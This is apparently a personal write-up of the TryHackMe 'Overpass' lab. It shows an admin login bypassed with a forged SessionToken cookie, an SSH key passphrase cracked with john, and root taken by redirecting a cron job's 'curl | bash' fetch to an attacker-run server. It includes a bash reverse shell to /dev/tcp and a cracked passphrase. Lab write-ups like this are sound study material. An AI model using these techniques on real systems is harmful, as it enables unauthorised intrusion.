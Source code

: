 -----------------------------------------------
# THM Overpass
Tags:  #Hacking #Writeup 
Creation date: 2021-10-04

-----------------------------------------------

## [[Recon]]

### [[Nmap]]

![[overpass-nmapscan.png]]

- SSH on 22
- HTTP on 80

### HTTP server

![[overpass_landing.png]]

![[overpass_about_us.png]]

![[overpass-downloads.png]]

#### Directory scan

Using [[Gobuster]]

![[overpass-dir_scan.png]]

##### Admin

Admin page has a login form.

Hint on THM says not to bruteforce, and vector is in OWASP top 10. So either [[SQL injection]] or [[broken authentication]].

## User

### [[SQLMap]]

SQLmap didnt show any injection points even with level 5 risk 3.

### Authentication it is then...

looking at the source code for the admin site there is a file called `login.js`. It has a function called login().

Contents of `login()`:

```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Looks like on a successful login attempt the website sets a cookie with the name of `SessionToken`. Creating a cookie with that name and refreshing the page grants us access to the admin area. (The value of the cookie doesn't matter as the website does not authenticate it properly.)

![[overpass-cooooooooookie.png]]

Admin area contains a private RSA SSH key with a handy hint telling us to crack it ourselves.

![[overpass-admin.png]]

#### johnny boy

use `ssh2john` to convert ssh key to hash for john:

`python /usr/share/john/ssh2john.py rsa > hash`


`john --wordlist=/usr/share/wordlists/rockyou.txt hash`

![[overpass-johnnyboy.png]]

john output says the passphrase for the ssh key is `james13`.

#### [[SSH]]

Can now SSH into the machine using the RSA key and passphrase from john.

`ssh -i rsa.txt james@10.10.197.150`

![[overpass-user.png]]

flag is in landing directory.

## Root

Nothing interesting in terms of [[SUID]] files and cant run any [[sudo]] commands due to lack of system password.

Home directory contains a TODO.txt file containing:

```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website**
```

Apparently `Paradox` got automated builds going, probably using a cron job or something similar. We dont have perms to use crontab so will run linpeas to sniff something out.

`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`

Linpeas flags up a cronjob running as root every minute. Downloading the contents of `overpass.thm/downloads/src/buildscript.sh` and running it with bash. We dont have perms to edit this file to get ourselves a shell, `overpass.thm` should be in `/etc/hosts` though so we can see where it is pointing to.

![[overpass-hosts.png]]

localhost... Lets change that to our IP address.

We can then set up a [[python]] server containing `downloads/src/buildscript.sh` with our own version of `buildscript.sh`.

`builtscript.sh` contents (reverse shell):

```bash
bash -i >& /dev/tcp/10.11.47.218/4444 0>&1
```

Here we set up the [[python]] server, using port 80 as cron will request the default port.

![[overpass-python_server.png]]

Then on a listener we set up earlier, we have a root shell!

![[overpass-rooty.png]]

## Notes

Possible users:

-	Ninja
-	Pars 
-	Szymex 
-	Bee 
-	MuirlandOracle